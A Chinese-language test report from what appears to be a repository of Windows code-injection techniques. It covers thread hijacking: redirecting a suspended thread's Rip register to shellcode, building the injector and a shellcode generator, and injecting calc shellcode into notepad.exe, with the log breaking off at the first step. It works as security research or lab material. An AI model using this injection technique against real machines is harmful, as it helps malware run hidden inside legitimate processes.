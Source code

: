 **劫持原理**：修改 `Rip` 寄存器指向 shellcode，线程恢复后从 shellcode 地址开始执行。

---

## 测试环境

- **操作系统**: Windows 10.0.26100.6584
- **编译器**: GCC (MinGW-w64)
- **架构**: x64
- **编译命令**: `./build.sh`
- **测试日期**: 2025-10-08

---

## 测试执行

### 构建项目

```bash
$ cd techniques/19-thread-hijacking
$ ./build.sh

========================================
Building Thread Hijacking
========================================

[*] Step 1: Compiling generate_shellcode.exe...
[+] generate_shellcode.exe compiled successfully

[*] Step 2: Compiling thread_hijacking.exe...
[+] thread_hijacking.exe compiled successfully

[*] Step 3: Generating test payload...
[+] Payload generated successfully

========================================
Build Complete!
========================================
```

**输出文件**：
- `build/thread_hijacking.exe` - 注入器
- `build/generate_shellcode.exe` - Shellcode 生成器
- `build/fileverify_shellcode.exe` - 文件验证 Shellcode 生成器
- `build/calc_shellcode.bin` - 默认测试 shellcode

---

### 测试 1: Calc Shellcode

**目的**: 验证基本线程劫持能力

**执行注入**:
```bash
$ ./build/thread_hijacking.exe "C:\Windows\System32\notepad.exe" build/calc_shellcode.bin

========================================
  Thread Hijacking
  线程执行劫持
========================================

[+] 已读取 shellcode: 272 字节
[*] 目标程序: C:\Windows\System32\notepad.exe

[*] 步骤 1: 创建挂起的进程...
```